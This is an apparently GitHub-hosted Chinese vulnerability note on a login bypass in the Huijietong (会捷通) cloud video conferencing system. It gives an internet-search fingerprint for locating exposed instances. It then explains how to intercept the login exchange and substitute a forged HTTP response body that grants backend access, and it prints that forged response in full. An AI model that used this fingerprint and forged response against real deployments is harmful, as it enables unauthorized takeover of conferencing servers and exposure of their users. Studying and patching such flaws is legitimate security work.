


# 会捷通云视讯 登录绕过漏洞

## 漏洞描述

会捷通云视讯存在登陆绕过漏洞，通过拦截特定的请求包并修改即可获取后台权限

## 漏洞影响

```
会捷通云视讯
```

## 网络测绘

```
body="/him/api/rest/v1.0/node/role"
```

## 漏洞复现

登陆页面如下


输入任意账号密码抓包




修改返回包为如下后放包则成功绕过登录


```plain
HTTP/1.1 200 
Server: Hsengine/1.4.1
Date: Mon, 17 May 2021 16:13:43 GMT
Content-Type: application/json;charset=UTF-8
Connection: close
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Accept-Ranges: bytes
Vary: Accept-Charset, Accept-Encoding, Accept-Language, Accept
Content-Length: 61

{"token":null,"result":null}
```


